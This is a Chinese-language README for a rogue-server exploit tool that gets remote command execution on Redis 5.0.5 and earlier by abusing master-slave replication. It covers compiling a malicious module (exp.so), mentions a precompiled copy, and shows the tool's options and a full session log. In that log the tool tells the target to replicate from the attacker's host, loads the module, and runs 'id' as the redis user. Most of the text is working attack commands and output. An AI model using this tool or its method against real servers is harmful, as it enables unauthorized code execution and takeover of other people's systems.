

# Redis 恶意服务器

重构自 <https://github.com/n0b0dyCN/redis-rogue-server>

为了更适配Kali Linux编译的 Redis(<=5.0.5) 主从复制 RCE.

## 要求

Python 3.x

## 用法

编译:

``` bash
cd RedisModulesSDK/
make
```

动态链接库 exp.so 在 `RedisModulesSDK/exp.so`.

以防万一，我添加了个已经编译好的 exp.so 可供使用.

帮助信息:

```
./redis-master.py -h                                                                                 
usage: redis-master.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE] [-c COMMAND] [-a AUTH]

Redis 4.x/5.x RCE with RedisModules

options:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -c COMMAND, --command COMMAND
                        Command that you want to execute
  -a AUTH, --auth AUTH  redis password
```

执行命令:

```
./redis-master.py -r 192.168.0.189 -p 6379 -L 192.168.0.189 -P 8888 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n192.168.0.189\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC fa03249fe5ea44ee1c53aaa34d9b3a97accc8a14 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\neuid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
euid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```

截屏:


